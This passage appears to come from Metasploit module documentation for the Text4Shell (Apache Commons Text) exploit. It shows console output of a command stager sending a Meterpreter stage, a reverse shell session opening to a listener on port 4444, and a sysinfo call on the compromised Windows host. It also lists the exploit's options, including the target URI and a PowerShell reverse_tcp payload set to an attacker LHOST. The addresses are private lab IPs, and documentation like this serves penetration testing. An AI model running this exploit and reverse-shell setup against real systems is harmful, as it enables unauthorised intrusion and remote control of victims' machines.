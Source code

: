 ```
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 172.18.160.1
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[*] Meterpreter session 5 opened (172.18.168.145:4444 -> 172.18.160.1:53165) at 2024-01-15 00:14:33 +0530

meterpreter > sysinfo
Computer        : HOME
OS              : Windows 11 (10.0 Build 22631).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

Target: Windows Command
```
msf exploit(multi/http/apache_commons_text4shell) > options

Module options (exploit/multi/http/apache_commons_text4shell):

   Name       Current Setting    Required  Description
   ----       ---------------    --------  -----------
   METHOD     GET                yes       The HTTP method to use (Accepted: GET, POST)
   PARAM      search             yes       The vulnerable parameter
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.18.160.1       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080               yes       The target port (TCP)
   SSL        false              no        Negotiate SSL/TLS for outgoing connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  text4shell/attack  yes       The target URI
   URIPATH                       no        The URI to use for this exploit (default is random)
   VHOST                         no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen
                                        on all addresses.
   SRVPORT  5000             yes       The local port to listen on.


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.18.168.145   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


```